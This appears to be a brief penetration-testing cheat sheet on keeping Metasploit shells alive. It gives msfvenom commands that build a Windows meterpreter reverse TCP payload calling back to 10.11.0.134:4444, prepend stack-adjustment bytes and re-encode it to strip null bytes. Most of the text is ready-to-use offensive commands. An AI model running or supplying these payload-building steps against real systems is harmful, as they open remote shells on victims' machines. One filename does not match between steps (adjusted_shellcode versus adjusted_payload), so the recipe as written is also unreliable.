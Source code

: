 # Shell Debugging

## Use MSF Handler to Prevent Dying Shells:

Use `set AUTORUNSCRIPT post/windows/manage/migrate` with `exploit/multi/handler`.

## Adjust Payload manually

This is normally done using the `StackAdjustment` parameter in Metasploit exploits. But you can do it manually to be independent of MSF exploits:

```
# msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=10.11.0.134 LPORT=4444 -f raw -o exploit_payload
# echo -en "\x81\xec\xac\x0d\x00\x00" > stack_adjustment
# cat stack_adjustment exploit_payload > adjusted_shellcode
# cat adjusted_payload | msfvenom -p - -b "\x00" -a x86 --platform Windows -f python
```